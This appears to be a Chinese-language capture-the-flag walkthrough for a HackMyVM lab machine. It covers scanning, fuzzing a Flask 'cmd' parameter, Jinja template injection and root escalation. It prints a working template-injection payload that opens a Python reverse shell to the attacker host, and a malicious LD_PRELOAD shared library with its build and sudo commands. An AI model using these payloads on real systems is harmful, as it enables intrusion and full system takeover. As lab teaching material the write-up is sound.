

# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 21:27 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0015s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000096s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.12s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for doc.hmv (192.168.21.13)
Host is up (0.00023s latency).
MAC Address: 08:00:27:45:2A:12 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.71 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.13
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 21:28 EDT
Nmap scan report for doc.hmv (192.168.21.13)
Host is up (0.00030s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp
MAC Address: 08:00:27:45:2A:12 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.82 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80,5000 192.168.21.13
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-06 21:28 EDT
Nmap scan report for doc.hmv (192.168.21.13)
Host is up (0.00028s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp   open  http       nginx 1.18.0
5000/tcp open  landesk-rc LANDesk remote management
MAC Address: 08:00:27:45:2A:12 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.29 seconds
```

# 漏洞利用

看一下5000端口

```markup
┌──(kali㉿kali)-[~]
└─$ nc 192.168.21.13 5000                     
 * Serving Flask app 'code' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.                                             
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.21.13:50000/ (Press CTRL+C to quit)
```

看一下80端口


目录扫描什么也没扫到

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.13 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt,jpg,png,zip,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,git,html,php,txt,jpg,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 612]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

看一下5000端口，在50000端口下有Flask应用

```markup
┌──(kali㉿kali)-[~]
└─$ nc 192.168.21.13 5000
 * Serving Flask app 'code' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.                                             
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.21.13:50000/ (Press CTRL+C to quit)
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.13:50000
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

192.168.21.11 - - [06/Apr/2025 22:16:25] "GET / HTTP/1.1" 500 -
```

模糊测试一下

```markup
┌──(kali㉿kali)-[~]
└─$ ffuf -u "http://192.168.21.13:50000/?FUZZ=" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0 -mc 200 -c -s 2>/dev/null
cmd
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.13:50000/?cmd
Welcome!!!!!!!!!!!!!
```

发现有模板注入漏洞



反弹shell

```markup
{{ config.__class__.__init__.__globals__['os'].popen("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"192.168.21.11\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\"])'") }}

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.13] 38114
id
uid=1000(paul) gid=1000(paul) groups=1000(paul)
```

# 提权

user.txt

```markup
cat us3r.txt
52f83ff6877e42f613bcd2444c22528c
```

看一下哪里可以利用

```markup
sudo -l
Matching Defaults entries for paul on preload:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on preload:
    (root) NOPASSWD: /usr/bin/cat, /usr/bin/cut, /usr/bin/grep, /usr/bin/tail,
        /usr/bin/head, /usr/bin/ss
find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
paul:x:1000:1000::/home/paul:/bin/bash
ls -la
total 24
drwxr-xr-x 2 paul paul 4096 Jan  8  2022 .
drwxr-xr-x 3 root root 4096 Dec  1  2021 ..
lrwxrwxrwx 1 paul paul    9 Jan  8  2022 .bash_history -> /dev/null
-rw-r--r-- 1 root root  571 Jan  8  2022 .bashrc
-rwxr-xr-x 1 paul paul  358 Jan  8  2022 code.py
-rw-r--r-- 1 paul paul  807 Aug  4  2021 .profile
-rw-r--r-- 1 paul paul   33 Jan  8  2022 us3r.txt
```

系统在使用 sudo 时 不会清除 用户传入的 LD_PRELOAD 环境变量！
LD_PRELOAD 是 Linux 下的一个动态链接器特性。
它允许用户在程序运行前指定要优先加载的共享库（.so 文件）。
如果这个共享库里实现了程序里会调用的函数，它会覆盖系统默认的版本。
所以我们可以写一个 .so 文件（共享库），它在加载时执行任意代码，比如提权运行 /bin/bash！

```markup
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash");
}

gcc -fPIC -shared -o root.so root.c -nostartfiles

sudo LD_PRELOAD=/tmp/root.so  /usr/bin/cat /tmp/root.c

sudo LD_PRELOAD=/tmp/root.so ss 
id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
cat 20o7.txt
09f7e02f1290be211da707a266f153b3
```